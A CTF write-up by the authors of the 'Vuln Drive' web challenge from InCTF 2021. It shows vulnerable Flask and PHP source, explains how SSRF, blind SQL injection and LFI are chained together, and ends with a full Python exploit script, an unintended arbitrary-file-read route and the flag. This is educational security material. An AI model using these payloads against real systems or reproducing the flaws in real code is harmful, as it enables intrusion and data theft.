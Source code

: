```yaml
---
title: Vuln Drive - InCTF Internationals 2021
author: Rohit
author_url: https://twitter.com/RohitNarayana11
date: 2021-08-15 19:00:05
tags : 
 - LFI
 - SSRF
 - SQLI
 - InCTFi
categories:
 - Web 
---
```

**tl;dr**

+ `/source` to get the source
+ Access local host from `dev_test`  using SSRF
+ SQLI to get the flag path a nd LFI to get the flag

<!--more-->

**Challenge Points** : 700
**No. of solves** : 27
**Challenge Author** : [Rohit](https://twitter.com/RohitNarayana11), [Skad00.sh](https://twitter.com/RahulSundar8), [Malf0y](https://twitter.com/mal_f0y), [Careless_finch](https://twitter.com/careless_finch)

## Description

Our new recruit worked on our new super secure file store and i am pretty sure he is good at what he does,it looks awesome.

## Introduction

This is our first challenge that we made for a CTF. The main idea is to chain 3 common vulnerabilities (SQLI, SSRF, LFI). We have made sure there is no guessing involved in our challenge. There was also an unintended solution. Hope everyone enjoyed the challenge.

## Intended solution

First we have to get the source of the web application from the `/source` endpoint (you can also get it using LFI). Going through the source you can find the `/dev_test` endpoint which is sending a get request to the URL we provide it. The URL is validated using the url_validate() function.

```python
def url_validate(url):
    blacklist = ["::1", "::"]
    for i in blacklist:
        if(i in url):
            return "NO hacking this time ({- _ -})"
    y = urlparse(url)
    hostname = y.hostname
    try:
        ip = socket.gethostbyname(hostname)
    except:
        ip = ""
    print(url, hostname,ip)
    ips = ip.split('.')
    if ips[0] in ['127', '0']:
        return "NO hacking this time ({- _ -})"
    else:
        try:
            url = unquote(url)          #  <==
            r = requests.get(url,allow_redirects = False)
            return r.text
        except:
            print(url, hostname)
            return "cannot get you url :)"

```

This is vulnerable to SSRF as it is URL decoding the input before sending the request. So we can bypass the filters by URL encoding our input (or you can brute-force the container ip :stuck_out_tongue_winking_eye:). Going through the source you can also find that the `/return_file` is vulnerable to LFI because the filename is concatenated without any sanitization. 

```python
@app.route('/return-files')
def return_files_tut():
    if auth():
        return redirect('/logout')
    filename=request.args.get("f")
    if(filename==None):
        return "No filenames provided"
    print(filename)
    if '..' in filename:
        return "No hack"
    file_path = os.path.join(app.config['UPLOAD_FOLDER'],str(session['uid']),filename)#  <==
    if(not os.path.isfile(file_path)):
        return "No such file exists"
    return send_file(file_path, as_attachment=True, attachment_filename=filename)
```

Visiting the local host using the SSRF we discussed above you can find the php page which is clearly vulnerable to SQL Injection.

```php+HTML
<?php
include('./conf.php');
$inp=$_GET['part1'];
$real_inp=$_GET['part2'];
if(preg_match('/[a-zA-Z]|\\\|\'|\"/i', $inp)) exit("Correct <!-- Not really -->");
if(preg_match('/\(|\)|\*|\\\|\/|\'|\;|\"|\-|\#/i', $real_inp)) exit("Are you me");
$inp=urldecode($inp);
//$query1=select name,path from adminfo;
$query2="SELECT * FROM accounts where id=1 and password='".$inp."'";
$query3="SELECT ".$real_inp.",name FROM accounts where name='tester'";
$check=mysqli_query($con,$query2);
if(!$_GET['part1'] && !$_GET['part2'])
{
    highlight_file(__file__);
    die();
}
if($check || !(strlen($_GET['part2'])<124))
{
    echo $query2."<br>";
    echo "Not this way<br>";
}
else
{
    $result=mysqli_query($con,$query3);
    $row=mysqli_fetch_assoc($result);
    if($row['name']==="tester")
        echo "Success";
    else
        echo "Not";
    //$err=mysqli_error($con);
    //echo $err;
}
?>
```

The script is executing the first query `$query2`. It is only executing the second query if there is an error in executing the first query. The intended solution is to error out the first query and to use blind injection in the second query to get the path.

To make an error in the first query we have to give just a `'` but that is blacklisted. URL encode comes again to save us. In the code you can see that we are again URL decoding the input. So we can put `%252527` to error out the first query.

In the second query there is a strict filter and there is a **length restriction** of 124 characters. The final payload is : `1,name from adminfo where path like 0x2f{x}25 union select 1` 

**Note** : This is a payload of exact length 124, anything with more length than this will not give you the full path. You can check the path you got is correct or not by just removing the `25` or you can check with `where path={path_you_got}` and confirm.

After getting the flag file path from the database. We can use the LFI mentioned above to download the flag file.

This is our final exploit.

```python
import requests

s=requests.Session()
url="http://web.challenge.bi0s.in:41666/"
path=""
s.post(url+'login',data={"username":"asdasd","password":"asdadssad"})
for i in range(33):
    for i in '1234567890abcdef':
        x = (path+i).encode().hex()
        data = {"url": f"http://123%40localhost?part1=%252527&part2=1,name from adminfo where path like 0x2f{x}25 union select 1"}
        r=s.post(url+'dev_test',data=data)
        if('Not' in r.text[:10]):
            path+=i
            print("Path :",path,end='\r')
            break
data = {"url": f"http://123%40localhost?part1=%252527&part2=1,name from adminfo where path=0x2f{(path).encode().hex()} union select 1"}
r = s.post(url+'dev_test', data=data)
print(r.text)
if('Not' in r.text[:10]):
    print("Length :",len(path))
    print("Path is correct!")
if path:
    print("Path :",path)
    r=s.get(url+'return-files?f=/'+path)
    print("Flag:",r.text)
```


## Unintended

The unintended solution is that we are blindly returning any file that you ask for. So you can pretty much download anything from the file system. As the requests are logged in the apache logs(access.log), you can find others solve script in there.

You can also download `/var/lib/mysql/challenge/adminfo.ibd` which will have the flag path.

It was a great learning experience for us. Congratulations for all those who solved it and all others who tried their best.

## Flag :

inctf{y0u_pr0v3d_th4t_1t_i5_n0t_53cur3_7765626861636b6572}
